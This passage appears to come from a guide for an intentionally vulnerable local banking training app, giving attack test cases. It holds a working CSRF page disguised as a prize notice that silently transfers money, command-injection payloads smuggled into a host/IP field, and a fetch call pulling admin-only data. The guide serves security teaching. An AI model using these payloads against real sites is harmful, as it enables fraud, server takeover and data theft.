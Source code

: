 **Test Case - Malicious Money Transfer:**

Create `csrf-attack.html`:
```html
<!DOCTYPE html>
<html>
<body>
    <h1>You Won a Prize!</h1>
    <form id="csrf" action="http://localhost:5000/api/transfer" method="POST" style="display:none;">
        <input name="recipient" value="ycp27">
        <input name="amount" value="1000">
    </form>
    <script>
        setTimeout(() => document.getElementById('csrf').submit(), 1000);
    </script>
</body>
</html>
```
- Victim opens this page while logged into the bank
- Result: Money transferred without victim's knowledge

---

### 5. Command Injection Attack

**Remote Code Execution**

Command injection allows attackers to execute arbitrary system commands on the server.

**Test Case - System Tools Exploitation:**
- Navigate to System Tools
- Host/IP field: `8.8.8.8 && whoami`
- Result: Executes system command and reveals server user

**Additional payloads:**
```bash
8.8.8.8 && dir          # List directory contents
8.8.8.8 && ipconfig     # Network configuration
8.8.8.8 && systeminfo   # System information
```

---

### 6. Broken Access Control

**Privilege Escalation**

Missing authorization checks allow regular users to access admin-only functionality.

**Test Case - Access Admin Data:**
- Login as regular user
- Open browser console
- Execute:
```javascript
fetch('http://localhost:5000/api/admin/users', {
  credentials: 'include'
}).then(r => r.json()).then(console.log)
```
- Result: Regular user retrieves admin-only data
